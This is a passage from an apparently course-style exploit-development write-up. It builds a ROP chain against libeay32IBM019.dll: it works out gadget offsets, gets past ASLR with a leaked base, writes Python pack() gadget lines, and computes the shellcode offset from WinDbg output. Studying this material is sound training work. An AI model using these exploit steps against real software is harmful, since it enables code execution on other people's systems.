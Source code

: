 In the case of libeay32IBM019.dll, this turns out to be 0x10000000 as shown in Listing 569.
The preferred base load address of libeay32IBM019.dll matches the upper most byte in the gadget addresses given in the rp++ output. To obtain the offset, we can simply ignore the upper 0x100 value from our gadgets and just take the "lower bytes". The substraction is easy in this case.
So, for example, instead of 0x100408d5 the offset would be 0x408d5.

## Point to the dummy shellcode address in the stack and replace it
The next step is to create the first part of the ROP chain that replaces the dummy stack address (right now it's a placeholder value) with the shellcode address in the stack. 

First, we need the ROP chain to move to the shellcode address in the stack.
ESI right now points to ESP, so we need gadgets to move it.
Remember to move ESI to EAX if we need to substract or add values as EAX will have more gadgets.
We will add 256 bytes. As we want to add 256 bytes, we can substract a very long value with the "add" operand with a negative value and then add a very big value 256 bytes higher than the negative value. Another alternative is to use the "sub" operation but there are no valid rop gadgets. So we substract a big number and then we add another big number + 256 bytes (we will fix the offset later):
```c
rop = pack("<L", (dllBase + 0x296f)) # mov eax, esi ; pop esi ; ret
rop += pack("<L", (0x42424242)) # junk into esi
rop += pack("<L", (dllBase + 0x117c)) # pop ecx ; ret
rop += pack("<L", (0x88888888)) # https://www.binaryconvert.com/result_signed_int.html?hexadecimal=77777878
rop += pack("<L", (dllBase + 0x1d0f0)) # add eax, ecx ; ret
rop += pack("<L", (dllBase + 0x117c)) # pop ecx ; ret
rop += pack("<L", (0x77777878))
rop += pack("<L", (dllBase + 0x1d0f0)) # add eax, ecx ; re
```
Note how the gadgets are using the leaked base address plus the offset to bypass ASLR.
Now we want to point to the lpBuffer placeholder address and replace it.
Also note that EAX now points to the shellcode address.
To replace the value, remember that we need a gadget like `mov [reg], eax` as we need to modify the value inside the stack.
first, let's calculate the offset from the shellcode to lpBuffer.  Let's see where we are when the last instruction is being performed:
EAX (shellcode location we just arbitrairly located): 0x059be40c
```c
0:001> dd eax
059be40c  cccccccc cccccccc cccccccc cccccccc
```
Our shellcode location is there. Let's see the location of the lpBuffer in the stack 
```c
0:001> dds esp -0x44
059be2ec  41414141 # lpBuffer placeholder
059be2f0  42424242 # nSize placeholder
059be2f4  039d401c libeay32IBM019!N98E_OSSL_DES_version+0x4f018
```

Do the substraction of both addresses and we get the offset (**Note: it is recommended to perform the calculation by dinamically obtaning the values rather than doing theorical substractions**):
```c
0:001> ? 059be40c -059be2ec  
Evaluate expression: 288 = 00000120
```
